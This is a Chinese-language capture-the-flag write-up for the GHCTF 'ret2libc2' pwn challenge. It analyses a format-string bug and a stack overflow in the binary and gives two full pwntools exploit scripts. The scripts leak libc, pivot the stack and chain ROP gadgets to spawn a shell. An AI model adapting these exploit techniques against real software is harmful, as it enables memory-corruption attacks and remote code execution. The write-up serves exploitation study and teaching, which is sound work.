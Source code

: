 ```yaml
---
title: ret2libc2
---
```

# GHCTF ret2libc2

## ida分析

### func函数分析
![6e5cf4e693a466433b60b2ca6baf7772.png](https://img.picui.cn/free/2025/03/09/67cd07aa94b2d.png)
1.程序很简单,main函数里只有init和func，这里直接看到func函数
2.可以看到存在一个格式化字符串漏洞和溢出漏洞.
3.程序没有提供system和`/bin/sh\x00`，需要泄露libc，完成ret2libc.

### func汇编分析
![98a456ad
.png](https://img.picui.cn/free/2025/03/09/67cd08b4567ca.png)
1.从汇编中可以看到更多信息.
2.首先是在leave ret 之前，lea rax [rbp+buf]. 实际上是将我们的输入的起始位置的内容交给了rax.而且可以注意到，无论是printf还是两个puts，都是通过rax来设置rdi。那么也就说我们的输入，可以给printf传递参数，也就是可以实现我们的格式化字符串漏洞.
3.同时，leave ret 留下了栈迁移的隐患。

### gdb调试分析
![65d.png](https://img.picui.cn/free/2025/03/09/67cd0bc176840.png)
1.通过gdb动调寻找栈上可以泄露出libc的函数.将func的返回地址覆盖为0x401227，直接将printf的rdi修改成我们的输入，查看这一帧栈帧，在0x15的位置看到了__libc_start_main,计算偏移为21+6=27.
2.同时，在第一次溢出时，需要覆盖rbp为有效地址。否则，这次func执行最后，会崩溃掉。

## 构造思路
1.首先确定泄露libc的手段，格式化字符串.并且第一次溢出时需要栈迁移.在这里补充一点，除了使用格式化字符串以外，还有一种泄露的手法.观察func函数，0x401223处，会将rbp-0x10 的内容作为参数赋给rax，再下方又被赋给了rdi.那么如果[rbp-0x10]是某个got表，那就可以把got表的内容打印出来。所以我们只需要把某个got-0x10交给rbp，就可以完成第一次的栈迁移和libc的泄露。
2.因为程序本身是没有提供pop_rdi,但是题目给了libc.so.6文件，在泄露libc基址之后，利用libc.so.6中的pop rdi;ret，一样可以控制rdi寄存器。现在我们已经有了ret2libc的全部条件。只需要栈迁移的一个合适的地址，完成rop。
3.选择bss段的高地址完成这段rop。如果是采用第二种方法泄露libc的话，需要再栈迁移一次，而且为了保证程序的顺利执行，第二次溢出，需要注意维护got表的内容尤其是read，否则第三次溢出就会出错。

## exp

### 格式化字符串
```python 
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
io=process("./ret2libc2")
#libc=ELF("libc.so.6")
#io=remote("node2.anna.nssctf.cn",28626)
elf=ELF("./ret2libc2")
bss=0x404060
ret=0x4011fa
gdb.attach(io)

payload1=b'%27$p'.ljust(8,b'a')
payload1=payload1.ljust(0x30,b'a')+p64(bss+0x900)+p64(0x401227)
io.sendafter(b'show your magic\n',payload1)
start_addr=int(io.recv(14),16)-128
libc_base=start_addr-libc.symbols['__libc_start_main']
log.success("start_addr-{}".format(hex(start_addr)))
pop_rdi=libc_base+0x2a3e5
system=libc_base+libc.symbols['system']
binsh=libc_base+next(libc.search(b'/bin/sh'))
one=libc_base+0xebc85

payload2=b'a'*(0x38)+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
io.sendafter(b'show your magic\n',payload2)
io.interactive()
```

### 迁移泄露
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=1
url='node2.anna.nssctf.cn'
port=28268
elf=ELF("./ret2libc2")
libc=ELF("./libc.so.6")
if mode == 0:
    io=process("./ret2libc2")
else :
    io=remote(url,port)


#leave_ret=0x
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
complete=0x404070
func=0x40121f
magic=0x401252
bss=elf.bss()+0x500+0x500
rsp_8=0x401016
offset=0x30+8
payload=b'%13$s'.ljust(0x30,b'\x61')
payload+=p64(0x404038)
payload+=p64(func)
payload+=p64(puts_got)

#
io.sendafter("show your magic\n",payload)

read=u64(io.recv(6).ljust(8,b'\x00'))
log.success('read-{}'.format(hex(read)))

libc_base=read-libc.sym['read']
sys=libc_base+libc.sym['system']
puts=libc_base+libc.sym['puts']
printf=libc_base+libc.sym['printf']
setvbuf=libc_base+libc.sym['setvbuf']
bin_sh=libc_base+next(libc.search(b"/bin/sh\x00"))
pop_rdi=libc_base+0x2a3e5
ret=libc_base+0x29139

payload=p64(0)*2+p64(puts)+p64(printf)+p64(read)+p64(setvbuf)
payload+=p64(bss)+p64(magic)
io.sendafter("show your magic\n",payload)
#gdb.attach(io)
payload=offset * b'a'
payload+=p64(pop_rdi)
payload+=p64(bin_sh)
payload+=p64(ret)
payload+=p64(sys)
io.send(payload)

io.interactive()
```